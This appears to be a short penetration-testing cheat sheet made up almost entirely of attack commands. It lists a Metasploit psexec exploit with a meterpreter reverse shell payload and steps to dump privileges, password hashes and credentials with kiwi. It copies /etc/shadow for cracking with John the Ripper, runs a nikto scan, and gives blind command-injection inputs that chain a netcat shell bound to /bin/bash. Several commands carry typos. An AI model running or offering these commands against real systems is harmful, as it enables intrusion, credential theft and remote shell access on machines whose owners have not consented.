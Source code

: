 					

	use exploit/windows/smb/psexec

	set payload windows/meterpreter/reverse_tcp

	set rhost victim

	set lhost mylocal

	set SMBUSer username

	set SMBPass password

	run

	getprivs

	run hashdump



	load kiwi

	creds_all



	cp -r /opt/john[tab][tab] /tmp/john

	cd /tmp/john

	make clean linux-x86-sse2

	cp sam.txt /tmp

	cd run

	./john /tmp/sam.txt



	cp /etc/passwd /tmp/john/run/passwd_copy

	cp /etc/shadow /tmp/john/run/shadow_copy

	./unshadow password_copy shadow_copy > combined.txt

	./john combined.txt

	cat john.pot

 

nikto

	nikto -h 192.168.254.133

 

blind command injection

	tcpdump -n host local and icmp

	>> test; pinc -c 4 local; echo hello



	test; nc -n -v- -l -l 2222 -e /bin/bash; echo hello
